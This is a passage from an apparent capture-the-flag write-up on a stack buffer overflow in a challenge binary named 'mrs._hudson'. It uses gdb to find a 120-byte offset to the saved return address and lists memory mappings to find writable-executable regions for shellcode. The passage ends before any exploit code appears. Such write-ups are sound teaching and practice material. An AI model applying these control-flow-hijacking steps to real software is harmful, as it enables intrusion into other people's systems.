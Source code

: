 So we can see here, it prints out the starting text and scans in all of our input without specifing how many characters. This is pretty much what we would expect to see. Let's use gdb to find out how much distance there is between the start of our input, and the RIP register:

```
gdb-peda$ b *0x400685
Breakpoint 1 at 0x400685
gdb-peda$ r
Starting program: /Hackery/asis/mycroft/mrs._hudson 
Let's go back to 2000.
15935728
```

once we reach the breakpoint:

```
Breakpoint 1, 0x0000000000400685 in main ()
gdb-peda$ find 15935728
Searching for '15935728' in: None ranges
Found 1 results, display max 1 items:
[stack] : 0x7fffffffdef0 ("15935728")
gdb-peda$ i f
Stack level 0, frame at 0x7fffffffdf70:
 rip = 0x400685 in main; saved rip = 0x7ffff7a303f1
 called by frame at 0x7fffffffe030
 Arglist at 0x7fffffffdf60, args: 
 Locals at 0x7fffffffdf60, Previous frame's sp is 0x7fffffffdf70
 Saved registers:
  rbp at 0x7fffffffdf60, rip at 0x7fffffffdf68
```

let's calculate the offset:

```
>>> 0x7fffffffdf68 - 0x7fffffffdef0
120
```

So there are 120 bytes  between the start of our input, and the return address stored in the RIP register. So now that we have control over code flow execution, our next step is to figure out how to load shellcode into memory and run it. Let's take a look at the virtual memory, the RWX segments that we found earlier with the checksec might be of some use:

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/Hackery/asis/mycroft/mrs._hudson
0x00600000         0x00601000         r-xp	/Hackery/asis/mycroft/mrs._hudson
0x00601000         0x00602000         rwxp	/Hackery/asis/mycroft/mrs._hudson
0x00007ffff7a10000 0x00007ffff7bce000 r-xp	/lib/x86_64-linux-gnu/libc-2.24.so
0x00007ffff7bce000 0x00007ffff7dcd000 ---p	/lib/x86_64-linux-gnu/libc-2.24.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r-xp	/lib/x86_64-linux-gnu/libc-2.24.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rwxp	/lib/x86_64-linux-gnu/libc-2.24.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rwxp	mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp	/lib/x86_64-linux-gnu/ld-2.24.so
0x00007ffff7fd4000 0x00007ffff7fd6000 rwxp	mapped
0x00007ffff7ff5000 0x00007ffff7ff8000 rwxp	mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p	[vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r-xp	/lib/x86_64-linux-gnu/ld-2.24.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rwxp	/lib/x86_64-linux-gnu/ld-2.24.so
0x00007ffff7ffe000 0x00007ffff7fff000 rwxp	mapped
0x00007ffffffde000 0x00007ffffffff000 rwxp	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
```
